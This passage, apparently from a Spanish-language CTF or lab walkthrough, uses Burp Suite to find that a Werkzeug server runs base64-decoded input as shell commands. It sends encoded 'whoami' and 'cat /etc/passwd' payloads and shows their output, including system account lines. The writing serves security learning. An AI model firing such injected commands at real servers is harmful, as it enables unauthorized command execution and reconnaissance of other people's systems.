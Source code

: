 ```
Connection: keep-alive

userInput=prueba
```
Si ahora le damos al boton naranja superior donde pone "Send", y enviamos la informacion, en el panel de al lado "Response", vemos la siguiente informacion:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Wed, 07 Aug 2024 00:34:22 GMT
Content-Type: text/plain
Content-Length: 24
Connection: close

Error: Incorrect padding
```
Parece ser que lo manda bien, pero hay un problema y nos da un error: "Incorrect Padding".

Si probamos a cambiar en el panel izquierdo el "userInput" por letras y numeros (por ejemplo, "123prueba", nos devolveria el error:
```
Error: Invalid base64-encoded string: number of data characters (9) cannot be 1 more than a multiple of 4
```
Vale, hemos recibido 2 errores diferentes con dos "userInput" diferentes, asi que si buscamos en Google ambos errores, vemos que tienen relacion con la codificacion en "base64", por lo que vamos a intentar enviar el comando "whoami", codificado en "base64" para ver que ocurre.

Para ello, primero iremos a la terminal de nuestra maquina atacante y escribiremos:
```
echo "whoami" | base64
```
cuyo resultado seria:
```
d2hvYW1pCg==
```
Volvemos entonces a BURPSUITE y ponemos este resultado en el panel izquierdo, al final, donde teniamos el "userInput":
```
userInput=d2hvYW1pCg==
```
Ahora le damos a enviar (boton "Send" naranja) y en el panel derecho de respuesta vemos que en vez de aparecernos un error, simplemente nos aparece la palabra "cachopin":
```
cachopin
```
Bien, viendo que funciona este metodo, nuestra siguiente paso seria buscar usuarios en el equipo, pasando a "base64" el comando "cat /etc/passwd" para ver si nos lo muestra:
```
echo "cat /etc/passwd" | base64

Y2F0IC9ldGMvcGFzc3dkCg==
```
Si ahora probamos a poner esto en el "userInput" y le damos a "Send" vemos que nos sale todo el archivo "/etc/passwd" tal y como queriamos:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```